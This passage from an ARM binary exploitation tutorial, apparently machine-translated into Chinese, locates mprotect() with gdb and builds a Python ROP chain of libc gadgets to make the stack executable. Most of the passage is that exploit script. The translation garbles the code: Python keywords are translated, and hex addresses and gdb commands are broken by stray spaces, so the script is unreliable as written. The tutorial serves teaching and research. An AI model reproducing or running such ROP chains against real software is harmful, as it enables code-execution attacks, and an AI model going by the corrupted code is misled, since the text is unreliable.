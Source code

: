 *现在让我们找到 mprotect()的地址。让我们加载二进制文件，在 main 中放置一个 bp 并运行它*

*让我们加载二进制文件，在 main 中放置一个 bp，然后运行它。点击断点后，使用“*disass”*命令在 mprotect 处进行反汇编*

> *gef >拆卸保护*

*![](img/b3842a6f10f4953d58e1fae4825b9b42.png)*

*复制指令的地址(push {r7})并粘贴到我们的漏洞利用脚本中*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0 XB 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk*
> 
> *打印(出口)*

*如果攻击运行正确，mprotect 将被调用，结果，它将使堆栈可执行。调用 mprotect()后，执行将返回，所以让我们添加一个垃圾值(“BBBB”)来看看它是否工作*

*让我们在 gdb 内部运行它*

*程序在地址 0x00000000 处崩溃。嗯，这很奇怪，我们一会儿会研究这个问题。在此之前，让我们用 *vmmap* 命令检查堆栈*
